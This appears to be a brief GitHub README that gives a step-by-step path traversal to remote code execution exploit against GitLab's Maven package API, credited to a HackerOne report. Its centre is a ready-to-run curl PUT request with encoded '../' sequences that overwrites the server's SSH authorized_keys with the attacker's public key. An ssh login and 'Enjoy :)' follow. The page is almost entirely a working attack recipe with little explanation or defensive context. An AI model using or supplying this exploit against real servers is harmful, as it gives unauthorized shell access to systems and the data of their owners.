

# Path traversal to RCE worth $12000 on GitLab 😳

### 1. Create project and private token
### 2. Send the following request
```
curl -H "Private-Token: $token" http://10.26.0.5/api/v4/projects/2/packages/maven/a%2fb%2fc%2fd%2fe%2ff%2fg%2fh%2fi%2f1/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f.ssh%2fauthorized_keys -XPUT --path-as-is --data-binary @/home/asakawa/.ssh/id_rsa.pub
```
### 3. $ ssh git@10.26.0.5
### 4. Enjoy :)


## Credit
Based on [saltyyolk](https://hackerone.com/reports/733072)'s report.
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"></a>
